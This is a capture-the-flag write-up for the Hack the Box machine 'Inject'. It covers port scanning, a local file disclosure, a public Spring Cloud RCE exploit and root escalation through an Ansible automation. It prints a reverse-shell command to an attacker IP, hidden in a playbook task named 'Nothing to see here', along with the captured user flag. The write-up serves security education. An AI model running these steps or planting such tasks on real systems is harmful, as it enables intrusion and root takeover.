 ```yaml
---
title: Inject
categories: [HTB]
tags: complete retired easy linux
img_path: /assets/img/HTB/inject/
---
```


![inject.card](Inject.png)

> Inject is an easy Linux machine from Hack the Box. Here is the tldr;
>
> * There is a website running on port `8080` with a page for uploading images. There is a local file disclosure vulnerability that allows us to discover a version of Spring Cloud along with credentials for the user `phil`.
> * We're able to take advantage of that vulnerability to get a reverse shell as the user `frank`.  We're able to `su` to phil with the credentials we found earlier.
> * By running pspy, we discover that there is an Ansible Playbooks automation running as root. By creating a new yaml file in `/opt/automation/tasks` we're able to get a reverse shell as root.
{: .prompt-tip }

## Enumeration

### nmap

```
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject]
└─$ nmap 10.129.35.51                              
[sudo] password for dimondsec: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-11 21:36 MST
Nmap scan report for 10.129.35.51
Host is up (0.66s latency).
Not shown: 933 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds
```

We've only got two ports open, `22` and `8080`. We likely won't find anything with port 22 so let's head over to 8080 in a broswer.

We've got a website, many of the links don't do anything. However, it looks like there may be a site under construction (maybe a subdomain??) We also have an upload page that will only accept images. If we upload an image, it looks like there is an LFI vulnerability in the URL.

To take advatage of this, we can visit the file we just uploaded, intercept the request in burpsuite, and replace the image path with the file we want to see. If we pull up the `/etc/passwd`, we can see that we have three users that can login, `root`, `frank`, and `phil`.

### Local file disclosure

![LFI in burpsuite](lfi.png)

```
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

Beyond being able to view individual files, if we put in a  directory we can also see the files in that directory. If we take a look in Frank's home directory, there is a folder `.m2` that stands out, in there we find a `settings.xml` file. In that file we find some credentials for the user phil. It doesn't work with SSH, but they will come in handy later.

In the home directory for phil, we can see the user.txt file with our flag, but don't have permission to access it.

![settings file](frank.settings.xml.png)

Next up, let's see if we can find out more information about the web application that is running by checking out `/var/www/`. In there we find a directory called `WebApp` with some more files and directories.

![webapp directory listing](webapp.dir.png)

If we open the `pom.xml` (a common configuration file), we find that it is running a vulnerable version of `Spring Cloud` (3.2.2). 

![pom file](springcloudframework.png)

There is an exploit [here](https://github.com/randallbanner/Spring-Cloud-Function-Vulnerability-CVE-2022-22963-RCE) for the version that's running that gives us remote code execution. I would encourage you to read more about how it works, but basically it creates a shell.sh in your current working directory, starts a basic web server, sends it to our target, makes the shell file executable, and then runs it to give us a reverse shell. It does all of this by sending commands in a specific header in our requests.

![screenshot of request header in expoit script](exploit.command.example.png)

In this request, we can see that it is pinging our attacker machine once to test the connection before continuing on.

Before we can run the exploit, we need to update our listening IP and port, as well as our target IP.

![updaing the script](update.exploit.png)

## User

Before we run our exploit, let's make sure we have a listener open on the port we specified in the script (for me that was 9001). Then let's launch the script and we have a shell a frank!

![we have a shell](wehaveashell.png)

Let's upgrade our shell a little to make it more stable with `$ python3 -c 'import pty;pty.spawn("/bin/bash")'`.

We know our user flag isn't readable by frank, but it is by phil. We found a password used by `phil` earlier, let's see if we can swith users from `frank` to `phil`.

It work! We can now access our user.txt flag.

```shell
phil@inject:~$ cat user.txt
cat user.txt
6a6254c04b6c0d83e57e13a22f51832b
```

Now that we have user, let's run pspy and see if we can see anything of interest that might be running. Start by putting the `pspy64` script in a www folder and starting up a basic web server. Then on our shell, we use wget to download the script and make it executable.

### Ansible Playbook

When we launch it and watch for a while, we see that there is an ansible playbook automation running as root.

![asbibe in pspy](ansible.pspy64.png)

Since there is an automated task running with Ansible Playbooks running as root, and we have write access to `/opt/automation/tasks` folder (see post about privesc with ansible [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)), we place a new `.yml` file similar to the existing file in the tasks directory with a command that will be run next time the automation is triggered and give us a shell as root.

Here is what our file  will look like:

```yaml
- hosts: localhost
  tasks:
    - name: Nothing to see here
      ansible.builtin.shell: bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'
```

## Root

To make things easier (since I don't have a very stable shell), I created the new yaml file on my attacker machine, used wget to download it onto the target, then copied it into the `/opt/automation/tasks` folder. Make sure to have a listener open and once the ansible automation runs you will have a shell as root!

![we have root](root.png)